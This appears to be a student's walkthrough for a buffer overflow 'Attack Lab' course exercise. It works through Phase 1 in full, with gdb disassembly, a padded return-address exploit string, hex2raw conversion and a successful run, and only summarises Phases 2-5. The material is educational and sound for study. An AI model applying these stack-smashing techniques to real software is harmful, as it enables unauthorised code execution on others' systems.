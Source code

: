 # Attack Lab Project (2021)

## Introduction
This project demonstrates buffer overflow exploits using different target files (`ctarget` and `rtarget`). The exercises are divided into five phases. The first three phases use the `ctarget` file, and the last two phases use the `rtarget` file.

Your unique cookie value is provided in the `ID.txt` file. For this project, the cookie value is `0x75d6394e`.

When passing arguments, the first six arguments go to `%rdi`, `%rsi`, `%rdx`, `%rcx`, `%r8`, then `%r9`.

The function `Gets` is similar to the standard library function `gets`. It reads a string from standard input (terminated by ‘\n’ or end-of-file) and stores it (along with a null terminator) at the specified destination. In this code, the destination is an array `buf`, declared with `BUFFER_SIZE` bytes.

## Phase 1
Phase 1 involves calling the function `touch1` by overflowing the stack with an exploit string that changes the return address of the `getbuf` function to the address of `touch1`.

### Steps to Solve Phase 1:
1. Run `ctarget` in `gdb` and set a breakpoint at `getbuf`:
    ```sh
    gdb ctarget
    break getbuf
    ```
2. Disassemble the `getbuf` function:
    ```sh
    disas getbuf
    ```
    You will see the following assembly code:
    ```assembly
    0x0000000000401780 <+0>:    sub    $0x18,%rsp
    0x0000000000401784 <+4>:    mov    %rsp,%rdi
    0x0000000000401787 <+7>:    callq  0x4019ba <Gets>
    0x000000000040178c <+12>:   mov    $0x1,%eax
    0x0000000000401791 <+17>:   add    $0x18,%rsp
    0x0000000000401795 <+21>:   retq
    ```
    There are 24 bytes (`0x18`) of buffer allocated for `getbuf`. This means you need 24 bytes of padding followed by the address of `touch1`.

3. Find the address of `touch1`:
    ```sh
    objdump -d ctarget > ctarget_dump.txt
    ```
    Open the `ctarget_dump.txt` file and search for `touch1`:
    ```sh
    cat ctarget_dump.txt | grep touch1
    ```
    You should see something like:
    ```assembly
    0000000000401796 <touch1>:
    ```

4. Create an exploit string in a text file `phase1.txt`:
    ```sh
    emacs phase1.txt
    ```
    The first 24 bytes will be padding, followed by the little-endian representation of `touch1`'s address:
    ```
    00 00 00 00 00 00 00 00
    00 00 00 00 00 00 00 00
    00 00 00 00 00 00 00 00
    96 17 40 00 00 00 00 00
    ```

5. Convert the hex string to raw format:
    ```sh
    ./hex2raw < phase1.txt > raw-phase1.txt
    ```

6. Run the exploit:
    ```sh
    ./ctarget < raw-phase1.txt
    ```
    You should see:
    ```plaintext
    Cookie: 0x434b4b70 // Your cookie will be different
    Type string:Touch1!: You called touch1()
    Valid solution for level 1 with target ctarget
    PASS: Sent exploit string to server to be validated.
    NICE JOB!
    ```

## Phases 2-5
Phases 2 and 3 continue with `ctarget` and involve similar buffer overflow techniques but target different functions (`touch2` and `touch3`). Phases 4 and 5 use the `rtarget` file, applying more advanced techniques.

---

For each phase, follow similar steps:
- Disassemble relevant functions.
- Identify buffer sizes and target addresses.
- Craft the exploit string in little-endian format.
- Convert and run the exploit using `hex2raw`.

Happy hacking!

---

**Note:** Always follow ethical guidelines and perform such exercises in controlled, legal environments.
